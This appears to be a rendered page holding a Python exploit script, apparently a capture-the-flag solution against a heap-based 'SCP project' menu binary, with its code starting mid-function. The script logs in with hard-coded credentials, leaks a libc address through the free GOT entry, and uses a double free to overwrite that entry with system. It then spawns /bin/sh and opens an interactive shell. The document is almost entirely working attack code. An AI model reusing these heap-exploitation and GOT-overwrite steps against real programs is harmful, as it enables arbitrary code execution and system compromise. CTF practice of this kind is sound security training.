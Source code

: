 ```python
    sea('> SCP name : ',name)
    sleep(0.1)
    sla('length : ',str(d_size))
    sea('SCP description : ',desc)
    sleep(0.1)

def dlt(index):
    sla('want to do :','4')
    sla('> SCP project ID : ',str(index))

def show(index):
    sla('want to do :','5')
    sleep(0.1)
    sla('> SCP project ID : ',str(index))
    ru('# SCP\'s name is ')
    return rc(6)

def login():
    sla('> Username:','TaQi')
    sla('> Password:','For_the_glory_of_Brunhild')

login()

add(0x28,'AAAAAAAA',0x58,'aaaaaaaa') #0
add(0x28,'BBBBBBBB',0x58,'bbbbbbbb') #1
add(0x28,'CCCCCCCC',0x58,'cccccccc') #2

# leak libc
dlt(0)
dlt(1)
add(0x18,p64(elf.got['free']),0x18,'dddddddd') #3
free = uu64(show(0))
libc_base = free - libc.sym['free']
info_addr('libc_base',libc_base)
system = libc_base + libc.sym['system']
dlt(3)

# double free
dlt(0)
add(0x28,p64(0xdeadbeef),0x58,p64(elf.got['free']-16-14)) #4
add(0x28,p64(0xdeadbeef),0x58,'eeeeeeee') #5
add(0x28,p64(0xdeadbeef),0x58,'ffffffff') #6

# overwrite free got
# debug()
add(0x28,'/bin/sh\0',0x58,'a'*14+p64(system)) #7

# system('/bin/sh')
dlt(7)

p.interactive()
```

